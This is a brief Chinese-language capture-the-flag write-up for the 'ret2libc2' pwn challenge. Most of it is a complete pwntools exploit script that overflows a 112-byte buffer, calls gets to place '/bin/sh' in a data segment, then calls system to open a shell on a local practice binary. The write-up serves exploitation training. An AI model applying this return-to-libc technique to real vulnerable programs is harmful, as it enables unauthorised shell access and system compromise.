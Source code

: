 # ret2libc2

检查程序安全保护

![image-20240424175359874](图片/image-20240424175359874.png)

该题与ret2libc1相似，只是没了/bin/sh字符串，我们需要自己读取字符串

payload如下

```python
from pwn import *

sh = process('./ret2libc2')

#system跳转地址
system_plt = 0x8048490
#gets跳转地址
gets_plt = 0x8048460
#接受字符串/bin/sh的地址 随便找一块数据段，以0结尾
sh_addr = 0x804a100

payload = flat([b'a'*112,gets_plt,system_plt,sh_addr,sh_addr])

sh.sendline(payload)
sh.sendline(b'/bin/sh')

sh.interactive()
```

